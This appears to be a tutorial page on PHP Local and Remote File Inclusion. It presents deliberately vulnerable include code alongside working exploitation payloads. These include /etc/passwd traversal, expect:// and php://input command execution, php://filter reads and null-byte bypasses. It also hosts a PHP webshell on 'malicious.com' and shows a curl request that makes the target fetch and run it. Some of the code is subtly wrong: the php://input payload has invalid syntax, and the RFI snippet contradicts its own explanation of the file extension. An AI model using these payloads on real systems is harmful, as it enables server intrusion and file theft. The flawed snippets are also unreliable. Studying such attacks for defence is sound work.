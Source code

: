 # LFI (Local File Inclusion)
This is a vulnerability that allows an attacker to include files on a server through the web browser basically to read them, apart from the hosted web-root directory.

LFI is mostly caused when a developer is too lazy to write a secure code >.<

```php
<?php
	$file = $_GET['page'];
	if (isset($file)){
		include("pages/$file");
	} else {
		include("ingex.php");
	}
?>
```

That above is an example of a vulnerable LFI code.

### Identifying LFI vulnerabilities
Say you visit a website `http://example.com/index.php` and from the navigation bar you find `http://example.com/index.php?page=about.php`, An attacker can attempt to exploit this by trying LFI:

`http://example.com/index.php?page=about.php`
`http://example.com/index.php?page=../../../../../../../etc/passwd`

Where this will include the `/etc/passwd` file instead of `about.php`

### Wrappers (PHP)
Sometimes wrappers can be used in this case , but depends with if the wrapper you are to use is allowed or not.

***EXPECT***
This wrapper allows execution of system commands , unfortunately it is not enabled by default, it can be used as below:

`http://example.com/index.php?page=expect://ls`

And the output over here shall be the listing of the files inside the server from the pwd it was executed at

***INPUT***
This wrapper also allows system commands execution , it can be used as follows:

`curl -X POST "http://example.com/index.php?page=php://input&cmd=ls" -d <?php echo system($_GET['cmd'];);?>`

***FILTER***
Allows an attacker to include localfiles which are then encoded with base64 to be the output, thus an attacker will have to decode the base64 content to get the plain text content, here is an example:

`http://example.com/inedx.php?page=php://filter/convert.base64-encode/resource=/etc/passwd`

This will encode the `/etc/passwd` file in base64 then output it.

### Null Byte Technique Bypassing
Sometimes it is filtered thus you have to bypass the filter to be able to fully perform LFI , by this we can bypass the filters using Null byte injection bypasses where as we add URL encoded `NULL BYTES` such as `%00` , for example:

`http://example.com/index.php?page=/etc/passwd%00`

### LFI 2 RCE
There are plenty of ways to get RCE from LFI , among them is by performing Log poisoning where as you send a request with a shell snippet code and then access the log and add a parameter that will perform execution of system commands , and the other would be by poisoning mail logs , and as well as the `input` wrapper and the `expect` wrapper

# RFI (Remote File Inclusion)
This vulnerability is almost the same to LFI but this one is of course remote , so you can perform almost the same thing in LFI but by accessing a remote vendor saying the code is :

```php
<?php
	$file = $_REQUEST['file'];
	if (isset($file)){
		include($file.'php');
	} else {
		include('index.php');
	}
?>
```

This is just an example of what the code looks like , so basically what it does it just takes the `?page=` parameter with a page like `about` without the `.php` at the end and then it outputs it, so we can take advantage of this by hosting a malicious script from our server `malicious.com` and then host the malicious php webshell from it and then request it from the website that is vulnerable without the extension, the malicious script would in this case be:

```php
<?=`$_POST[0]`?>
```

Where it is taking the data `0` and then executing it with system command then outputing the result so we can host it and access it to the targetted site with curl simple by writing:

```bash
curl -X POST "http://example.com/index.php?page=http://malicious.com/evil" -d "0=ls"
```

We didn't write `evil.php` because it will say not found since it will be called as `evil.php.php` , instead I just wrote `evil` where it will then be called `evil.php`.

From there I can definitely get RCE

**By tahaafarooq**

